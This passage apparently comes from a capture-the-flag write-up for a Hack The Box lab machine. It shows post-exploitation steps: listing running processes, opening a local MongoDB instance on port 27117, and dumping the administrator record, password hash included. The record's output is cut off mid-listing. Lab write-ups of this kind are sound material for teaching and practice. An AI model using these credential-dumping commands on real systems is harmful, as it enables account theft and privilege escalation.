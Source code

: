 ## 5. **Installation**

## 6. **Command & Control**

## 7. **Actions on Objectives**

Get the reflex to check all the services there are running on the target victim with :

```BASH
ps -aux
```

We discovered that there is a mongodb running on the port 27117 so let's go open it.

```BASH
mongo --port 27117
show dbs
```

Output :

```BASH
shshow dbs
ace       0.002GB
ace_stat  0.000GB
admin     0.000GB
config    0.000GB
local     0.000GB
```

Well, we want to escalate our privilege. The password of user root is probably in the ace bdd of mongo because it's the default bdd of mongo.

```SHELL
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
```

Output :
```BASH
MongoDB shell version v3.6.3
connecting to: mongodb://127.0.0.1:27117/ace
MongoDB server version: 3.6.3
{
	"_id" : ObjectId("61ce278f46e0fb0012d47ee4"),
	"name" : "administrator",
	"email" : "administrator@unified.htb",
	"x_shadow" : "$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4.",
	"time_created" : NumberLong(1640900495),
	"last_site_name" : "default",
	"ui_settings" : {
		"neverCheckForUpdate" : true,
		"statisticsPrefferedTZ" : "SITE",
		"statisticsPreferBps" : "",
		"tables" : {
			"device" : {
				"sortBy" : "type",
				"isAscending" : true,
				"initialColumns" : [
					"type",
					"deviceName",
					"status",
					"connection",
					"network",
					"ipAddress",
					"experience",
					"firmwareStatus",
```